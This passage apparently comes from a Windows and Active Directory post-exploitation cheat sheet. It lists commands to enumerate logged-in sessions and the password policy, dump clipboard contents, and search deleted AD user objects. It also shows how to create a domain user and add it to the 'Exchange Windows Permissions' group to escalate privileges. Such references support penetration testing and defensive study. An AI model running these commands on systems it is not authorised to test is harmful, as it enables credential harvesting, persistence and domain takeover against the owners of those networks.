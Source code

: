 ### Tokens

### Logged Users / Sessions

Enumerate the users that are currently logged in:

```
qwinsta
klist sessions
```

### Password Policy

Enumerate the password policy information with this command:

```
 net accounts
```

### Copy the contents of the clipboard

We may be able to dump information that's on the clipboard, however, this method is easily detected by modern Anti-malware or Anti-virus:

```
powershell -command "Get-Clipboard"
```

## Misc

### AD Recycle Bin Group

Search for deleted objects and filter for users:

```
Get-ADObject -SearchBase "CN=Deleted Objects,DC=domain,DC=local" -Filter {ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *`
```

### Exchange Windows Permissions

Create your own user

```
net user username password /add /domain
```

Add the newly created user to the group Exchange Windows Permissions:

```
net group "Exchange Windows Permissions" /add username
```

### TeamViewer

```
PS C:\> tasklist | findstr /i 'TeamViewer'
TeamViewer_Service.exe        3048                            0     18,404 K
```
